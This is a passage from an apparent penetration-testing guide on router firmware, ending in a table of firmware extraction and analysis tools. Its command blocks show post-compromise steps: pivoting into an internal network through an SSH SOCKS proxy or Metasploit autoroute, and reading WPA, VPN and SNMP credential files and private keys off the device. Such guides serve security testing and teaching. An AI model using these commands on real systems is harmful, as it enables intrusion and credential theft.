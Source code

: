```bash
# Use compromised router as pivot point:
# Route traffic through router to access internal network

# Setup SOCKS proxy (if device has netcat/socat):
ssh -D 8080 root@router.ip

# Or use Metasploit pivot:
msfconsole
use post/multi/manage/autoroute
set session 1
run
```

**Extracting sensitive data:**

```bash
# Wireless credentials:
cat /etc/config/wireless
# Contains WPA/WPA2 passwords

# VPN credentials:
cat /etc/config/vpn

# SNMP community strings:
cat /etc/config/snmpd

# Firmware encryption keys:
find / -name "*.key" -o -name "*.pem"
```

---

## Tools Reference

### Firmware Analysis Tools

| Tool | Purpose | Platform |
|------|---------|----------|
| **binwalk** | Firmware extraction, entropy analysis | Linux, macOS |
| **firmware-mod-kit** | Firmware unpacking/repacking | Linux |
| **jefferson** | JFFS2 filesystem extractor | Linux |
| **sasquatch** | SquashFS extractor (supports all versions) | Linux |
| **ubi_reader** | UBI/UBIFS filesystem extractor | Linux |
| **cramfsck** | CramFS extractor | Linux |
| **firmware-analysis-toolkit (FAT)** | Automated firmware analysis | Linux |
| **Firmadyne** | Automated firmware emulation | Linux |
| **FACT** | Firmware Analysis and Comparison Tool | Linux (web-based) |

